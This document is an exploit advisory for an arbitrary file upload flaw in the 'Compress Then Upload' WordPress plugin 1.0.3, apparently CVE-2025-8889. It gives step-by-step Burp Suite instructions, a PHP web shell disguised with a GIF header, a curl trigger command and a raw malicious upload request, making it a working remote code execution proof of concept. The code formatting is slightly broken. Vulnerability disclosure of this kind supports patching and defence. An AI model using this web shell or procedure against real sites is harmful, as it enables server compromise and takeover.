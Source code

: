 # Exploit Title: WordPress Compress Then Upload Plugin 1.0.3 Arbitrary File Upload to RCE
**Date:** 2025-07-23  
**Exploit Author:** Muhammed Çelik  
**Vendor Homepage:** [https://wordpress.com/plugins/compress-then-upload](https://wordpress.com/plugins/compress-then-upload)  
**Software Link:** [https://downloads.wordpress.org/plugin/compress-then-upload.latest-stable.zip](https://downloads.wordpress.org/plugin/compress-then-upload.latest-stable.zip)  
**Version:** 1.0.3  
**Tested on:** Debian, WordPress 6.8.1, Apache 2.4.62, PHP 8.2.28  
**CVE:** CVE-2025-8889  

## Vulnerability
The "Compress Then Upload Images" WordPress plugin fails to properly validate file extensions and MIME types during image uploads via its media upload interface. Although client-side validations exist, these can be bypassed by intercepting and modifying the upload request.

An authenticated user with media upload permissions (Author role or higher) can exploit this by:

1. Uploading a benign image file first  
2. Intercepting the upload request (e.g., via Burp Suite)  
3. Modifying the uploaded filename extension and the file content to contain malicious PHP code  
4. Retaining the original MIME type header (image/jpeg) to bypass weak server-side checks  
5. Resulting in arbitrary PHP code execution (Remote Code Execution, RCE) on the server  

## PoC

**Step 1: Prepare a regular image file**  
Create a regular image file, e.g., `regular.jpg` (any valid JPG file).

**Step 2: Upload the regular image via WordPress Admin Panel**  
- Login to WordPress Admin Panel with a user having at least Author privileges.  
- Navigate to Media > Compress Then Upload Images (plugin’s upload interface).  
- Upload `regular.jpg` normally.

**Step 3: Intercept and modify the upload request with Burp Suite**  
- While the upload is in progress, intercept the HTTP multipart request in Burp Suite.  
- Modify the request:  
  - Change `filename="regular.jpg"` → `filename="evil.php"`  
  - Replace the file content with PHP web shell code:  

```php
GIF89a;
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }


Note: The GIF89a; mimics a valid GIF header to bypass weak image validations.
Keep the Content-Type as image/jpeg.

Forward the modified request to the server.

Step 4: Trigger the uploaded web shell

If upload is successful, the PHP file will be saved in the uploads directory, e.g.:
http://target-site.com/wp-content/uploads/2025/07/evil.php

Access via browser or curl:

curl "http://target-site.com/wp-content/uploads/2025/07/evil.php?cmd=id"

Example Malicious Upload Request (Burp Suite)

POST /index.php?rest_route=/wpctu-api/v1/upload HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
...
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: image/jpeg

GIF89a;
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
?>

